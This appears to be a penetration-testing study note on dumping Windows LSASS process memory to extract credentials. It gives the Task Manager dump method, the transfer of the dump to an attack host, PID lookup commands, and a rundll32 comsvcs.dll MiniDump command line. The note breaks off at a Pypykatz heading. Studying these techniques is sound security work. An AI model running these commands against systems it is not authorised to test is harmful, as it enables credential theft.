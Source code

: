 
Reference the lessons on LSASS in [[Credential Storage#LSASS]] 




### Dumping LSASS Process Memory

>[! Note ] 
>Best to create a copy of the contents of LSASS process memory via a memory dump. This allows to extract credentials offline 

#### Task Manager Method:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

- The above creates a file called `lsass.DMP` and is located in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
- Transfer `lsass.DMP` to the attack host via [[Attacking SAM#Syntax for smbserver.py]]


#### Rundll32.exe & Comsvcs.dll Method:

>[! Warning] Warning about this dumping method:
> Modern anti-virus will flag this action as malicious!

1) Determine the process ID assigned to lsass.exe in cmd or powershell

##### Find LSASS PID via CMD
```cmd
tasklist /svc
```

##### Find LSASS PID via Powershell
```powershell
Get-Process lsass
```

#### Creating lsass.dmp via Powershell

>[! Hint]
> Be sure to run powershell as admin

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
	- rundll32.exe calls cmsvcs.dll 
	- which then calls MiniDump to dump LSASS process memory to the intended directory


### Extract Credentials via Pypykatz:



